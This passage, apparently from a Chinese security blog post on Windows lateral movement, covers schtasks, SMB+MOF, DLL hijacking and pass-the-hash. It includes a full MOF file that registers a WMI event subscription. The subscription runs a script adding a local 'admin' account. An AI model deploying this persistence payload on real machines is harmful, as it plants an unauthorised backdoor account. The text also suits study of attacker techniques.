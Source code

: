 验证失败：win03 连到 08,xp 连到 08,xp 连到 03(但是并没有真正的成功执行, 不知道是不是有姿势错了)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNj21gv67Ok0mMicwvuC6tR3aVIYkblt9OUjtxZZrhSZ7NW47X2rib0OZlw/640?wx_fmt=png)

更多用法：http://www.feiesoft.com/windows/cmd/schtasks.htm

SMB+MOF || DLL Hijacks 其实这个思路一般都有用到的, 比如在 mof 提权 (上传 mof 文件到 c:/windows/system32/wbem/mof/mof.mof) 中, lpk\_dll 劫持 不过测试添加账号成功... 执行文件缺失败了

```
#pragma namespace("\\\\\\\\.\\\\root\\\\subscription")
instance of \_\_EventFilter as $EventFilter
{
    EventNamespace = "Root\\\\Cimv2";
    Name  = "filtP2";
    Query = "Select \* From \_\_InstanceModificationEvent "
            "Where TargetInstance Isa \\"Win32\_LocalTime\\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};
instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\\"WScript.Shell\\")\\nWSH.run(\\"net.exe user admin adminaz1 /add\\")";
};
instance of \_\_FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};
```

**PTH + compmgmt.msc**

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjdUwJnfrvDdZbia50v5HibEAeo1lrLjcnsSKK98oOUWefFtEktBibK52cA/640?wx_fmt=png)

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)

**【好书推荐】**

![](https://mmbiz.qpic.cn/mmbiz_png/ffq88LJJ8oPhzuqa2g06cq4ibd8KROg1zLzfrh8U6DZtO1oWkTC1hOvSicE26GgK8WLTjgngE0ViaIFGXj2bE32NA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/x1FY7hp5L8Hr4hmCxbekk2xgNEJRr8vlbLKbZjjWdV4eMia5VpwsZHOfZmCGgia9oCO9zWYSzfTSIN95oRGMdgAw/640?wx_fmt=gif)

[2020hw 系列文章整理（中秋快乐、国庆快乐、双节快乐）](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247492405&idx=1&sn=c84692daf6077f5cc7c348d1e5b3a349&chksm=f9e38c6ece9405785260b092d04cfb56fec279178d4efcd34bf8121b89a28885bf20568cdfda&scene=21#wechat_redirect)  

[HW 中如何检测和阻止 DNS 隧道](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247492405&idx=2&sn=7afccd524c176b4912526d8f5d58dc3a&chksm=f9e38c6ece940578b5a4f0f102fa5a20b6facee51f23e3fa25598e9e7257c798180edcdf5802&scene=21#wechat_redirect)
